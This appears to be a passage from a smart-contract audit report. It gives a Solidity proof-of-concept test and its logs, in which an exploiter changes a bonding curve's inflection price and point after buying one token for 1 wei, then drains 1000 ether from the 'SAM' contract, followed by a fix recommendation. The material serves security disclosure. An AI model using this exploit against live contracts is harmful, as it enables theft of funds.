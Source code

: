```solidity
        console.log("Starting SAM Balance:", address(sam).balance);

        sam.create(
            address(edition),
            0, // base
            1, // infl price
            type(uint32).max, // infl point
            1000, 0, 0 // artist, golden egg, affiliate
        );

        bytes32[] memory affProof = new bytes32[](0);
        sam.buy{value: 1}(
            address(edition),
            exploiter,
            1,
            address(0),
            affProof
        );

        sam.setInflectionPrice(address(edition), 500 ether);
        sam.setInflectionPoint(address(edition), 1);

        uint[] memory tokenIds = new uint[](1);
        tokenIds[0] = 1;
        sam.sell(
            address(edition),
            tokenIds,
            1 ether,
            exploiter
        );

        console.log("Ending Exploiter Balance:", exploiter.balance);
        console.log("Ending SAM Balance:", address(sam).balance);

    }
}
```

```solidity
Logs:
    Starting Exploiter Balance: 1
    Starting SAM Balance: 1000000000000000000000
    Ending Exploiter Balance: 1000000000000000000001
    Ending SAM Balance: 0
```

**Recommendations**

It's crucial that the logic that stops a user from adjusting a bonding curve comes from a trusted source. This can be implemented in many possible ways: locally storing a value (like the `data.supply` value or a boolean flag) that locks curve changes or validating the codehash of the edition.

**Review**
